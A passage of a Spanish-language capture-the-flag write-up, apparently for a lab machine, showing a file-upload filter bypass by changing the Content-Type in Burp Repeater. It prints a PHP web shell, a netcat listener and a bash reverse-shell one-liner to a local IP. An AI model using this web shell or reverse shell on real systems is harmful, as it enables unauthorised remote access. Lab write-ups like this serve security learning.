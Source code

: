 En este caso, puede que la web no se fije en la extensión sino en el "Content-type", por lo que podríamos cambiarlo por "image/jpeg", quedará así:

![repeater2](./images/Report/img/repeater2.png)

Una vez cambiado solo le damos a "send", y en la respuesta veremos esto:

![repeater3](./images/Report/img/repeater3.png)

Ahora que ya se subió, tendremos que hacer una u otra cosa dependiendo de nuestra shell, en mi caso es esta:

```php
<?php
system($_GET['cmd']);
?>
```

y con esta debemos hacer lo siguiente:

1. Primero preparamos el `netcat` escuchando por el puerto 443: `nc -lvnp 443`
2. Ahora vamos a la url donde se encuentra el archivo, en este caso sería: http://realgob.dl/uploads/cmd.php
3. Luego en la url agregamos lo siguiente: ?cmd=. Esto nos permitirá ejecutar comandos, por lo que para enviarnos una shell debemos poner lo siguiente: `bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`

Una vez enviado estaremos dentro de la máquina.

## ESCALADA DE PRIVILEGIOS
